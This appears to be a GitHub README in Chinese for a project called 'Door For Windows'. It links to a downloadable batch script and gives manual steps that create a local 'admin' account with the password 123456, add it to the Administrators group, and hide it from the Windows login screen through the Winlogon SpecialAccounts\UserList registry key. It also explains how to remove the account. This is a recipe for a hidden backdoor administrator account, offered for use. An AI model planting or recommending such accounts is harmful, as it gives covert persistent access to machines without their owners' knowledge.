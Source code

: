## Door For Windows

https://github.com/dylanbai8/door_for_windows/releases/download/v2/Door.bat

## ▚ 设置

添加用户
```
管理员权限运行 cmd 打开命令行

net user admin 123456 /add
net localgroup administrators admin /add
```

隐藏用户
```
使用 win+r regedit 打开注册表
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

依次添加：
SpecialAccounts
UserList

得到：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList

右侧-右键-新建-DWORD(32位)值-填写用户名 admin
```

## ▚ 删除

删除用户
```
管理员权限运行 cmd 打开命令行
net user admin /del

使用 win+r regedit 打开注册表

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
删除 SpecialAccounts

[以下两项新用户登陆过才会有]

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList
找到对应用户项-删除

打开资源管理器
C:\Users 删除对应我用户文件夹
```

